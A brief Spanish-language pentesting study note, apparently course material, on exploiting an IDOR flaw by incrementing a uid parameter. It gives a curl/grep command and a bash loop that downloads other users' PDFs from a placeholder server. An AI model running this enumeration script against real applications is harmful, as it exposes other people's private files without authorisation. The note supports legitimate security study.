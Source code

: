 - Herramientas: Lo más sencillo es usar intruder, pero en ciertas certs o sino tenemos la licencia se podria complicar, una forma manual seria:
  - curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
    - Buscamos patrones donde aparezca información relacionada a otros usuarios, pero para hacerlo automatizado podemos:
```
#!/bin/bash

url="http://SERVER_IP:PORT"
for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```














